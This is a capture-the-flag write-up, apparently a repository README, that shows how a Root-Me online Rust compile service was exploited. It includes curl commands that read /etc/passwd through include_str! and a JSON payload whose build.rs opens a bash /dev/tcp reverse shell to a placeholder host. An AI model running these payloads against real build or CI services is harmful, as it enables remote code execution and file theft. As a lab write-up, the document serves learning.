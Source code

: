 # Build & Drustroy (day4)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify"> In this challenge a Rust compilator was available online; it was possible to send raw rust code to the online service which was returning a binary containing our Rust code compiled. The code was sent through JSON payload, using the following cmdline (provided with the chall). The source code of the compilator was also provided, docker file and server files also so you could have deployed the service locally : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
````
<p align="justify">I had never used Rust before, so I had to read a few doc before trying to exploit anything. After a few read, I came up with a first exploit. Actually with rust it's possible to use the macro include_str to load file/data during code compilation. So the first thing I tried was to load /etc/passwd, which was successful : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { let flag_content = include_str!(\"/etc/passwd\"); println!(\"// Flag content: {}\",flag_content); }"}' --output binary
````

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="justify">Afterward, I thought I would be able to load the file directly, but the name of the flag file wasn't the one provided in the source files. Since I couldn’t guess the actual name of the flag file, I decided to deploy a reverse shell. In Rust, when code is compiled using Cargo, the file build.rs is automatically loaded into the compilation process (it is located in the root folder of your rust project). This file is often used to generate files that you want to include in your Rust project, or to run scripts before and after compilation: </p> 

````text
project_dir/
├── Cargo.toml      
├── build.rs        
├── src/
│   ├── main.rs     
│   └── lib.rs      
└── output_dir/
````

<p align="justify">So, in the context of this challenge, it was an open door to remote code execution (RCE). As a result, I deployed a reverse shell using the following JSON payload (the reverse shell payload is available in revshell.rs in this repository):</p>

````json
{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }", "build.rs":"use std::process::Command; fn main() { let ip = \"IP ADDR\"; let port = \"PORT\"; let _ = Command::new(\"bash\").arg(\"-c\").arg(format!(\"exec 5<>/dev/tcp/{}/{}; cat <&5 | while read line; do $line 2>&5 >&5; done\", ip, port)).spawn().expect(\"Failed\"); println!(\"Reverse shell attempted to connect to {}:{}\", ip, port); }"}
````

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

<p align="justify"> For tcp tunneling I used ngrok, and after I received the remote connection I managed to print the flag : </p>

Flag : _OffenSkillSaysHi2024RustAbuse_ , thanks Laluka for tor this challenge !
